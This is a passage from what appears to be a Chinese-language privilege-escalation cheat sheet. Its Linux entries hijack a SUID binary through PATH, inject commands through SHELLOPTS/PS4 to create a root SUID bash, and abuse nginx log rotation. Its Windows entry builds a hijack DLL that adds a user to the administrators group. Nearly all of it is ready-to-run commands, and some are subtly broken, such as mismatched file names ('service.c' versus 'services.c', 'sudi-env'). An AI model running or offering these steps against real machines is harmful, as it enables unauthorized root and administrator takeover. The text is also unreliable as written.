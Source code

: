 方法:

1.  `su – www-data;`
2.  `nginxed-root.sh /var/log/nginx/error.log;`
3.  In root user
4.  `invoke-rc.d nginx rotate >/dev/null 2>&1`

### **Abusing File Permission via SUID Binaries – Environment Variables #1)**

域：No

Local Admin: Yes

操作系统: Linux

类型: Abusing File Permission

方法:

1.  `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' >/tmp/service.c;`
2.  `gcc /tmp/services.c -o /tmp/service;`
3.  `export PATH=/tmp:$PATH;`
4.  `/usr/local/bin/sudi-env; id`

### **Abusing File Permission via SUID Binaries – Environment Variables #2)**

域：No

Local Admin: Yes

操作系统: Linux

类型: Abusing File Permission

方法:

1.  `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +S /tmp/bash)' /bin/sh -c /usr/local/bin/suid-env2; set +x; /tmp/bash -p`

### **DLL Hijacking**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.  `Windows_dll.c: [cmd.exe](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=1&q=cmd.exe&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJjbWQuZXhlIiwiemhpZGFfc291cmNlIjoiZW50aXR5IiwiY29udGVudF9pZCI6MjM2NjIzNjAwLCJjb250ZW50X3R5cGUiOiJBcnRpY2xlIiwibWF0Y2hfb3JkZXIiOjEsInpkX3Rva2VuIjpudWxsfQ.ujYTsIHfOEEGu0tdSaVzM8dEHGIEmbfi4GmTWrnnOCg&zhida_source=entity) /k net localgroup administrators user /add`
2.  `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
3.  `sc stop dllsvc & sc start dllsvc`

